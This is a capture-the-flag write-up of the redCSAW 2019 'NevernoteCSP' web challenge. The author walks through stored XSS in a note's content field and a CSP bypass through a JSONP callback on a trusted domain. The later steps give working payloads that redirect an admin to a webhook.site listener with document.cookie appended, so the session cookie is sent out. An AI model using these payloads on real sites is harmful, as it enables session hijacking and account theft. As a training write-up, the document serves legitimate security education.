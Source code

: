 ## NevernoteCSP by sAINT_barber
---

*This is my first write up so be gentle*

This is a write up for the challenge NevernoteCSP on the redCSAW 2019 CTF competition.

First we are greeted with the challenge description

![alt text][image1]

We will be performing some sort of cookie stealing, and we also understand from the title that it will be pointing to a type of CSP bypass.

After creating an account and clicking around on the site the only thing you could actually do was create and upload notes.

![alt text][image2]

So, we can edit the note title and give it some content. And then we can report the post to an admin.
By this one can assume we will be doing some XSS with a cookie stealing payload to steal the admins cookie and get the flag!

The only area that does not sanitize the users input is the content area. As you can see below i have changed the content style to bold with the `<b>` tag

![alt][image3]

Now lets add a script with a simple alert!
`<script>alert('Haircuts')</script>`

![alt][image4]

Nothing came up, but we did get a warning in the dev-tools console tab

![alt][image5]

Content Security Policy is blocking the inline script, from the name 'script-src' it only accepts javascript from a source file. From there we can view the CSP in the network tab by clicking on a request and checking the headers

![alt][image6]

We can copy the policy into this site to check its' evaluation:
https://csp-evaluator.withgoogle.com/

We can see that the
`script-src 'self' cdn.jsdelivr.net *.ngs.ru` trusts domains 2 that are known to bypass CSP

![alt][image7]

After some googling i found from the cdn.jsdeliver.net domain a callback function that reflects whatever javascript you equal it as.

`https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')`

so now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')"></script>`

Lets place this in the content part of a new note and see if we bypass the CSP

And voila! We bypassed the CSP. Now we can move on to getting the admins cookie!

![alt][image8]

In general what we need to do now is report our note to the admin, wait until he/she opens our note it should redirect him/her to a malicious site that we are listening on so we can see his/her cookies in the request header.

I will be using a site called Webhook (https://webhook.site) as my listener.

We can use this javascript code to redirect the admin to our site.
`window.loaction.replace('malicioussite.poutses')`<br>
Our payload now looks like this<br>

`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762')"></script>`

Now all we need to do is add this payload then report to the admin, but if you're following along you will notice that as soon as we click on this note it will automatically redirect us to the webhooks listener (Thats what we want), and wont allow us to click the *report to admin link*. We can see the 'href' request makes: /notes/report/{note_id}, all we need to do is write down our note id and make a simple get request with that id.

Looking at the webhooks site we can see our admins request!

![alt][image9]

Perfect! Now all we need to do is use the document.cookie javascript method to print out the cookie, what i did is add the cookie to the query of the get request the admin performs on our malicious site e.g malicioussite.com/?name=sAINT_barber,

Now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762/?elaToCookie='.concat(document.cookie))"></script>`

*Note: I used the .concat() function to concatenate the document.cookie onto the query string, if you want to use the '+' sign then you will have to url encode it because the '+' in the url translates to a space.*

Now lets see if it works!

![alt][image10]

Boom! We can see in the Query strings our flag!

Note: If the cookie flag had the httpOnly flag then it would not print out with the document.cookie method.

A big Thank you to styx00! Not only did he help me complete the challenge, but also helped me understand the procedure of bypassing the CSP and Reflected XSS.

Flag: `flag{go_to_r/ProgrammerHumor_for_a_good_time}`



[image1]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image1.png
[image2]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image2.png
[image3]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image3.png
[image4]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image4.png
[image5]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image5.png
[image6]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image6.png
[image7]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image7.png
[image8]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image8.png
[image9]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image9.png
[image10]: https://raw.githubusercontent.com/CYberMouflons/ctf-writeups/master/redCSAW2019/NevernoteCSP/images/image10.png
